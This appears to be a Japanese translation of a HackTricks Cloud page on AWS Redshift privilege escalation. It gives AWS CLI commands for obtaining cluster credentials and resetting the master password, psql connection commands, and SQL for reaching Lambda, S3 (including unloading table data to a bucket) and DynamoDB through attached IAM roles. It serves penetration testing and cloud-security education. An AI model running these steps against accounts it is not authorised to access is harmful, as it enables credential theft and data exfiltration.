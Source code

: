 # AWS - Redshift 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または**HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f)または[**telegram グループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングテクニックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Redshift

RDSに関する詳細情報は次を参照してください：

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

これらの権限を持つと、**すべてのクラスターの情報**（名前とクラスターユーザー名を含む）を取得し、それにアクセスするための**資格情報**を取得できます。
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**潜在的影響:** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

これらの権限を持つと、**すべてのクラスタの情報**を取得し、それにアクセスするための**資格情報**を取得できます。\
ポスグレスユーザーは、資格情報を取得する際に使用されたIAMアイデンティティが持つ**権限**を持つことに注意してください。
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**潜在的影響:** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

AWS CLIから内部のpostgres（redshit）ユーザーの**マスターパスワードを変更**することが可能です（これらが必要な権限だと思いますが、まだテストしていません）。
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**潜在的影響:** データベース内の機密情報を見つける。

## 外部サービスへのアクセス

{% hint style="warning" %}
以下のリソースにアクセスするには、**使用するロールを指定する必要があります**。Redshiftクラスタには、**使用できるAWSロールのリストが割り当てられている**場合があります。ARNを知っている場合はそれを使用するか、単にデフォルトの割り当てられたものを使用するために "**default**" を設定できます。

さらに、[**こちらで説明されているように**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html)、Redshiftはロールを連結することも可能です（最初のロールが2番目のロールを仮定できる場合）。ただし、**コンマ**で**区切る**ことで、さらなるアクセスを取得できます: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)で説明されているように、Redshiftからラムダ関数を呼び出すことが可能です。
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), **S3バケットに読み書きする**ことが可能です:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html)で説明されているように、**DynamoDBからデータを取得**することが可能です。
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
データを提供するAmazon DynamoDBテーブルは、[REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region)オプションを使用して、Amazon DynamoDBテーブルが配置されているAWSリージョンを指定しない限り、クラスタと同じAWSリージョンに作成する必要があります。
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)をチェックしてください。

## 参考文献

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
